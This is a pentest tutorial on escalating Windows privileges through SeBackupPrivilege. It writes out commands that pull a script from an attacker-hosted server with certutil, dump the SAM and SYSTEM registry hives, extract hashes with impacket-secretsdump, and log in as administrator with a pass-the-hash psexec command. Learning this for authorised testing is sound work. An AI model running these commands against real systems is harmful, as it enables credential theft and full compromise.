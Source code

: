 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

SeBackupPrivilege allows a user to back up files and directories. This privilege grants the ability to traverse any folder and list its contents, even if there are no explicit access control entries (ACEs) for the user in the folder's access control list (ACL). It is commonly used by service accounts for backup purposes. Understanding and leveraging this privilege can be crucial for privilege escalation during a penetration test.

### **STEP 1: CHECK CURRENT USER PRIVILEGES**

1.  Check if current user has SeBackupPrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/128.png)

    **NOTE:** If it is not enabled, proceed to the next step to enable it.

### **STEP 2: ENABLE SEBACKUPPRIVILEGE (OPTIONAL)**

2.  Download the EnableAllTokenPrivs.ps1 script to enable SeBackupPrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  

    ![](../../../img/Windows-Environment/129.png)

    **NOTE:** Host the script Using Python `python -m http.server 80`
    
3.  Transfer the EnableAllTokenPrivs.ps1 script to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/130.png)

    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeTakeOwnershipPrivilege is now enabled  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/131.png)
    

### **STEP 3: EXPLOIT BACKUP SAM & SYSTEM**

1.  Save the registry  
    `reg save hklm\system system.hive`  
    `reg save hklm\sam sam.hive`  
    
    ![](../../../img/Windows-Environment/132.png)
    
2.  Transfer the sam.hive and system.hive files to the attacker machine via SMB, then use impacket-secretsdump to extract and decode the credentials from these files.  
    `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`  
    
    ![](../../../img/Windows-Environment/133.png)
    
3.  We can use the Administrator hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:  
    `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:34386a771aaca697f447754e4863d38a administrator@[IP-ADRESS]`  
    
    ![](../../../img/Windows-Environment/134.png)